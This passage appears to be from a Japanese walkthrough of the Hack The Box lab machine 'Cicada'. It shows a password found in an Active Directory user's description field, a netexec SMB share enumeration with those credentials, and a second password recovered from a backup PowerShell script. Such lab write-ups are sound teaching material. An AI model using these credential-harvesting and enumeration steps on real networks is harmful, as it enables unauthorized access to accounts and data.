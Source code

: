 emilyのパスワードを求めて、列挙を行っていると `david.orelious` の説明欄にパスワードを見つけました

`aRt$Lp#7t*VQ!3`

![image-20250207133810714](screenshot/image-20250207133810714.png)

`david.orelious` としてSMB共有を列挙すると、`DEV` に読み取り権限がついていました。

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Cicada]
└─$ netexec smb CICADA-DC.cicada.htb -u 'david.orelious' -p 'aRt$Lp#7t*VQ!3' --shares
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\david.orelious:aRt$Lp#7t*VQ!3 
SMB         10.10.11.35     445    CICADA-DC        [*] Enumerated shares
SMB         10.10.11.35     445    CICADA-DC        Share           Permissions     Remark
SMB         10.10.11.35     445    CICADA-DC        -----           -----------     ------
SMB         10.10.11.35     445    CICADA-DC        ADMIN$                          Remote Admin
SMB         10.10.11.35     445    CICADA-DC        C$                              Default share
SMB         10.10.11.35     445    CICADA-DC        DEV             READ            
SMB         10.10.11.35     445    CICADA-DC        HR              READ            
SMB         10.10.11.35     445    CICADA-DC        IPC$            READ            Remote IPC
SMB         10.10.11.35     445    CICADA-DC        NETLOGON        READ            Logon server share 
SMB         10.10.11.35     445    CICADA-DC        SYSVOL          READ            Logon server share 
```

DEVにアクセスすると中に、`Backup_script.ps1` というパワーシェルスクリプトを見つけました。ダウンロードして中身を調べます。

![image-20250207134556450](screenshot/image-20250207134556450.png)

`emily.oscars` のパスワード `Q!3@Lp#M6b*7t*Vt` を見つけました。
